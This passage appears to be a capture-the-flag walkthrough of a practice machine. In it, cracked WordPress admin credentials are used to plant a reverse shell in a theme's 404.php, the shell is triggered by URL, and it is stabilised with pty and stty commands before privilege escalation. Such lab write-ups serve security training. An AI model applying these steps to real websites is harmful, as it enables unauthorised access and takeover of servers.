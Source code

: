 It will take some time, after it finishes we get:


![](cybersecurity/images/Pasted%2520image%252020250529141114.png)


We got credentials: 

```
admin:my2boys
```


![](cybersecurity/images/Pasted%2520image%252020250529141427.png)

![](cybersecurity/images/Pasted%2520image%252020250529141513.png)

As seen, we got access to the admin panel, on here, we can check this on the posts:

![](cybersecurity/images/Pasted%2520image%252020250529141550.png)

![](cybersecurity/images/Pasted%2520image%252020250529141610.png)

We got a reminder to reset `will's` credentials, we got:

```
william:arnold147
```

I tried these at ssh but no luck, seems like we need to get a reverse shell through the themes as usual, let's do it:

![](cybersecurity/images/Pasted%2520image%252020250529141847.png)

On here, add a reverse shell:


![](cybersecurity/images/Pasted%2520image%252020250529141925.png)

Update the file and go to, we need to have our listener ready:

```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

![](cybersecurity/images/Pasted%2520image%252020250529142034.png)

We got our reverse shell, let's begin privilege escalation.

# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
